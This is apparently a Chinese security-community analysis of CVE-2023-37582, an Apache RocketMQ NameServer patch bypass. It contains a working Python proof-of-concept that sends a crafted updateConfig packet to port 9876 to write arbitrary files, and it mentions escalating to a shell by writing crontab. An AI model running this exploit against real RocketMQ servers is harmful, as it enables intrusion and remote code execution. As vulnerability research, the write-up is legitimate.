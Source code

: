 

# Apache RocketMQ NameServer 远程代码执行漏洞（CVE-2023-37582）分析 - 先知社区

Apache RocketMQ NameServer 远程代码执行漏洞（CVE-2023-37582）分析

* * *

# 漏洞描述

最近，阿里云又发布了RocketMQ的漏洞通告，因为才分析过这个漏洞，所以再来看一下

[![](assets/1701612301-118d1eda9871c1f659142dc046c547f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232628-78f31f82-20c8-1.png)

一看是由于上次没有修复完善的原因，拉一版修复的源码再来看一下。

# 漏洞分析

[![](assets/1701612301-a0d76d496ca037d1963cd21f7d7f5ac5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232645-82d53580-20c8-1.png)

修补的地方在namesrv，还是updateconfig这个地方，这里可以用RocketMQ自己的协议，用不同的code调用过来

[![](assets/1701612301-c20b54c005803a1790292a34cd7b19e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232653-87b41c6a-20c8-1.png)

[![](assets/1701612301-d29b723d966081bbfad7d7449219a34c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232659-8b4f2cac-20c8-1.png)

这里是318，namesrv的端口是9876

[![](assets/1701612301-712909b3f2584ea20990dae0665737c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232707-8fea9eea-20c8-1.png)

之前的漏洞，可以通过update造成任意文件写入，而补丁则把控制文件路径的properties加入来黑名单，跟进update

```plain
public void update(Properties properties) {
    try {
        readWriteLock.writeLock().lockInterruptibly();

        try {
            // the property must be exist when update
            mergeIfExist(properties, this.allConfigs);

            for (Object configObject : configObjectList) {
                // not allConfigs to update...
                MixAll.properties2Object(properties, configObject);
            }

            this.dataVersion.nextVersion();

        } finally {
            readWriteLock.writeLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("update lock error, {}", properties);
        return;
    }

    persist();
}
```

因为之前的了解，就直接跟到persist了

[![](assets/1701612301-e90ef4f53ef49985be841b1ccffc8c32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232717-96078a90-20c8-1.png)

在string2File这里造成的任意文件写入，第二个参数是filename，所以跟进到getStorePath观察一番

[![](assets/1701612301-52740a04bbf03bd66bbd4b2a074f1799.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232735-a0871d1e-20c8-1.png)

最后的返回的realStorePath在这里赋值，storePathFiled是一个Field实例化的类，这个类是用于反射的，看到它时configStorePath字段，所以这里全是就是获取的其实是storePathObject中configStorePath的值

[![](assets/1701612301-5f6dae8e7ea1fac393bd19640850939e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232746-a6db8dee-20c8-1.png)

这些都是我们在RocketMQ的协议中的body可以控制的，并且没有被过滤，过滤的properties为configStorePathName

也印证了为什么这次的补丁时把configStorePathName改为configStorePath

# 漏洞复现

```plain
import socket
import binascii

client = socket.socket()
# you ip
client.connect(('127.0.0.1',9876))
# data
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='brokerConfigPath=/tmp/aaa/CaSO4.txt\nconfigStorePath=/tmp/aaa/DawnT0wn.txt\naaaConfigPath=123\\nMy name is DawnT0wn'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

[![](assets/1701612301-23b72713e59e51a6fef37c4c68b5655f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232802-b09724ce-20c8-1.png)

至于漏洞通告中写到的远程代码执行，在5.1.1版本之前可以结合FilterServerManager这个类的心跳机制，在unix和linux下可以命令执行，但是在5.1.0到5.1.1的版本更新中删除了这个类，只能用写crontab的方式来获取shell了

参考链接：

[https://github.com/apache/rocketmq/pull/6843/files](https://github.com/apache/rocketmq/pull/6843/files)

[https://avd.aliyun.com/detail?id=AVD-2023-37582](https://avd.aliyun.com/detail?id=AVD-2023-37582)
